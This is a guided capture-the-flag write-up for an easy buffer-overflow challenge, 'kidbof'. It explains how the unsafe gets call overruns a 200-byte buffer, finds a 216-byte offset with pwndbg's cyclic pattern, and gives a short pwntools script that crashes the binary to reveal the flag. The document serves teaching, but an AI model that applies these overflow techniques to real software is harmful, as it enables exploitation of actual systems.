 # Challenge Name
kidbof

## Learning Objective
Understand simple buffer overflow and `gets` vulnerability.

## Description 
Order me more pizzas.

## Difficulty:
Guided (Easy)

## Guide
Let's highlight the main points in the source code:

1. When a segmentation fault is triggered while binary is running, it will run the `pizza` function , which will read the flag
2. `burger` function is called, which asks for a input to be put in `order` variable which has a size of 200 bytes. 
3. It also has the vulnerable c function `gets`, which allows us to buffer overflow.

We can try to do this: 

#### To find the offset needed:
1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 300 bytes. This cyclic sequence helps uses to identify what address or how many bytes we want to overwrite. 

```shell
pwndbg> cyclic 300
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

You should be able to observe this in the registers:
```shell
 RBP  0x6261616161616162 ('baaaaaab')
 RSP  0x7fffffffdc68 ◂— 'caaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa'
```

We just need the first 8 bytes in `RSP` because that tells how many bytes we need to completely overflow `saved RBP pointer address`

```shell
pwndbg> cyclic -l caaaaaab
Finding cyclic pattern of 8 bytes: b'caaaaaab' (hex: 0x6361616161616162)
Found at offset 216
```

### Solve script

1. Import the library
```python
from pwn import *
```

2. Depending on whether you want to solve locally or remotely, add either of the following:
```python
# local solve
p = process("./chall")

# remote solve
p = remote("IP", PORT)
```

3. Since we want to send 216 bytes of input:
```python
payload = b'A' * 216
p.sendline(payload)
```

4. Interact with the service
```python
p.interactive()
```

When we put all that together u should get this:
```python
from pwn import *

# local solve
# p = process("./chall")

# remote solve
p = remote("IP", PORT)

# payload 
payload = b'A' * 216

# send payload
p.sendline(payload)
p.interactive()
```

Run in your terminal to solve:
```shell
$> python3 script.py
```

## Solution
Refer to solve.py.

## Hints
1. What causes segmentation fault? 
2. Have you considered saved RBP address?

## Attached Files
- chall.c
- chall

## Resources
- http://ctf101.org

## Flag
TBD
